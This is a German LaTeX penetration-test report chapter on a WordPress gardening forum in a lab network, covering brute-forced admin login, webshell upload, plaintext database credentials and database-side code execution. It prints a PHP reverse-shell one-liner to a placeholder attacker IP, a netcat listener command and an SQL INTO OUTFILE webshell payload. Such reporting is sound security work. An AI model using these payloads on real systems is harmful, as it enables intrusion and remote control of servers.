\pagebreak
\chapter{Sam's Gärtnerboard}
Die Webanwendung ist eine Wordpress-Anwendung für Personen zum Austausch über Gärtner-Themen. Sie befindet sich unter der URL \url{http://10.0.68.107}. Ein Screenshot der Startseite befindet sich in \autoref{fig:03_sam}.

\vfill
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/05_sams_gaertnerborad.png}
    \caption{Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam}
\end{figure}
\vfill
\newpage

\cvss{av=local, ac=high, pr=high, ui=required, s=unchanged, c=low, i=low, a=low}
\cvssdescription{Brute-Force-Angriff auf das Login-Formular mit bekannten Benutzernamen und einer Liste von Passwörtern.}

\section{\makecvssbadge Broken Authentication}
\cvssaddtosummary{Sam's Gärtnerboard: Broken Authentication} 

\subsection*{Proof of concept}
Aus der Webanwendung sind bereits Nutzernamen bekannt. Mit einer Brute-Force Attacke auf den Admin Nutzer \textit{frodo} kann ein Admin-Zugriff auf die Webanwendung erlangt werden.

\subsection*{Empfehlungen}
\begin{itemize}
    \item Strenge Passwortrichtlinien: Erzwingen Sie die Verwendung komplexer und langer Passwörter und ändern Sie Standardpasswörter, um einfache Passwörter zu vermeiden (siehe \cite{bsi_passwords}).
    \item Account-Sperrung und Ratenbegrenzung: Implementieren Sie Mechanismen, die nach mehreren fehlgeschlagenen Anmeldeversuchen eine Sperrung oder Verzögerung auslösen, um automatisierte Angriffe zu verhindern (siehe \cite{owaspAuthenticationOWASP}).
    \item Multi-Faktor-Authentifizierung (MFA): Ergänzt die Passwortauthentifizierung um einen zusätzlichen Faktor, um den Zugriff auch mit kompromittierten Zugangsdaten zu verhindern (siehe \cite{owaspAuthenticationOWASP}).
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Unsichere Dateiupload einer PHP-Webshell über das Wordpress-Plugin Advanced File Manager. Und Initiierung einer Reverse Shell.}

\section{\makecvssbadge Remote Code Execution (RCE)}
\cvssaddtosummary{Sam's Gärtnerboard: Remote Code Execution (RCE)} 

\subsection*{Proof of concept}
Durch den zuvor erlangten Admin-Zugriff konnten Einstellungen an der Wordpress-Anwendungen durchgeführt werden. Dadurch konnte der Anwendung das Wordpress-Plugin \textit{Advanced File Manager} hinzugefügt werden. Mit diesem Plugin ist es möglich auf der Konfigrationsseite der WP-Anwendung wie in einem Datei-Explorer Dateien der Anwendung durchsuchen und neue Dateien hochzuladen. Durch den erlangten Admin-Zugriff und das Hinzufügen des WP-Plugins \textit{Advanced File Manager} konnte eine PHP Webshell in das Verzeichnis der Webanwendunge hochgeladen werden. Dadurch ist diese Webshell und der URL \url{http://10.0.68.197/webshell.php} erreichbar. 

Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden.  Ein Nachweis ist in \autoref{fig:03_sam_proof} dargestellt.


\begin{listing}[!ht]
\begin{minted}{bash}
php -r '\$sock=fsockopen("<Angreifer-IP>",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{minted}
\caption{Reverse Shell}
\label{listing:sams-gaertnerboard:reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/03_sam_proof.png}
    \caption{Proof für die Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_proof}
\end{figure}

\subsection*{Empfehlungen}
Empfehlungen

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=low, i=low, a=low}
\cvssdescription{Speicherung der Zugangsdaten für die Datenbank im Klartext in einer Konfigurationsdatei.}

\section{\makecvssbadge Sensitive Data Exposure}
\cvssaddtosummary{Sam's Gärtnerboard: Sensitive Data Exposure} 

\subsection*{Proof of concept}
Durch den zuvor erlangten administrativen Zugriff auf die Webanwendung \textit{Sams's Gärtnerboard} konnten die Zugangsdaten für den Zugriff auf die dazugehörige Datenbank erlangt werden. Diese sind in der Datei \texttt{wp-config.php} zu finden. Die Zugangsdaten liegen im Klartext vor und sind nicht verschlüsselt.

\subsection*{Empfehlungen}
\begin{itemize}
    \item Sichere Speicherung: Sensible Daten, wie z.B. Zugangsdaten zu einer Datenbank, sollten nicht im Klartext, sondern verschlüsselt gespeichert werden. Alternativ können solche sensiblen Daten in Umgebungsvariablen gespeichert werden oder es kann ein Secrets Management verwendet werden (siehe \cite{owaspSecurityMisconfiguration}).
    \item Zugriffsbeschränkung: Stellen Sie sicher, dass Konfigurationsdateien nur von autorisierten Benutzern gelesen werden können. Gehen Sie dabei nach dem Least-Privilege-Prinzip vor (siehe \cite{owaspAuthenticationOWASP}).
\end{itemize}


\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Durch den SHH-Zugriff auf den Datenbankserver ist es möglich, per SQL-Befehl eine Web Shell hochzuladen und damit eine Reverse Shell zu initiieren.}

\section{\makecvssbadge Datenbank: Remote Code Execution (RCE)}
\cvssaddtosummary{Sam's Gärtnerboard-DB: Remote Code Execution (RCE)} 

\subsection*{Proof of concept}
Mit den zuvor erhaltenen Zugangsdaten kann eine SSH-Verbindung hergestellt werden. Der Datenbankserver ist ein SQL-Server. Damit kann über den SQL-Befehl aus \autoref{listing:sams-gaertnerboard-db:webshell-sql} eine Webshell auf dem Datenbankserver hinterlegt werden. Diese Webshell ist dann unter der URL \url{http://10.0.68.108/web-shell.php} erreichbar.

Über die hochgeladene Webshell kann eine Reverse Shell gestartet werden. Dazu muss zunächst auf dem System des Angreifers ein Netcat-Listener gestartet werden (siehe \autoref{listing:netcat-listener}). Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. Ein Nachweis ist in \autoref{fig:03_sam_db_proof} dargestellt.

\begin{listing}[!ht]
\begin{minted}{sql}
Select '<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/web-shell.php';
\end{minted}
\caption{Webshell upload über SQL-Befehl}
\label{listing:sams-gaertnerboard-db:webshell-sql}
\end{listing}


\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/03_sam_db_proof.png}
    \caption{Proof für die Datenbank zur Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_db_proof}
\end{figure}

\subsection*{Empfehlungen}
Empfehlungen
